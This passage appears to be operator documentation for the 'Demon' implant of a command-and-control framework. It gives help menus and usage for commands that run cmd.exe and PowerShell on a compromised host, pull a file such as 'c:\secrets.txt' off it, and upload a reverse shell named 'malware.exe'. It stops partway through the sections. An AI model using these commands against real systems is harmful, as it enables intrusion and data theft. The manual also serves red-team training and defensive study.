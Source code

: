 ```
Demon » help shell

 - Command       :  shell
 - Description   :  executes cmd.exe commands and gets the output
 - Behavior      :  Process Creation
 - Usage         :  shell [commands]
 - Example       :  shell dir c:\windows\system32

Demon » help powershell

 - Command       :  powershell
 - Description   :  executes powershell.exe commands and gets the output
 - Usage         :  powershell [commands]
 - Example       :  powershell dir c:\windows\system32
```

##### 2.1.6.2 - Usage

* Execute any `shell` command that the demon implant spawns a child process `cmd.exe`

`Demon » shell <command> [args]`

`Demon » shell dir /s /b c:\ | findstr "explorer.exe"`

* Spawns a child process of `powershell.exe`

`Demon » powershell <cmdlet> [args]`

#### 2.1.7 - Upload and Download Files

##### 2.1.7.1 - Help Menu

```
Demon » help download

 - Command       :  download
 - Description   :  downloads a specified file
 - Behavior      :  API Only
 - Usage         :  download [/path/to/file.txt]
 - Example       :  download c:\secrets.txt

Demon » help upload

 - Command       :  upload
 - Description   :  uploads a specified file
 - Behavior      :  API Only
 - Usage         :  upload [/local/file/to/upload.exe] [/remote/path/to/upload.exe]
 - Example       :  upload /tmp/reverse_shell.exe c:\malware.exe
```

##### 2.1.7.2 - Usage

#### 2.1.8 - Jobs Queue

##### 2.1.8.1 - Help Menu
